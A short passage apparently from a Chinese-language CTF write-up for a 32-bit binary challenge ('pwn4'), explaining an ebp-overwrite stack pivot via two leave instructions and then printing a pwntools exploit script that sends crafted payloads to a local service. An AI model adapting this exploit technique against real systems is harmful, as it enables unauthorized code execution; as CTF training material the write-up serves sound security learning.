 不能溢出至ret_addr但是，我们可以控制ebp，两次leave之后，我们还是控制了eip。

exp如下：

```python
from pwn import *

context(log_level="debug")
vul_addr =  0x80485fc
data_addr = 0x8049908
# p = process('./pwn4')
p =  remote('127.0.0.1',10088)
p.recvuntil('\n')
p.sendline('a'*4+p32(vul_addr))
p.recvuntil('\n')
p.sendline('a'*0x3a+p32(data_addr))
p.interactive()
```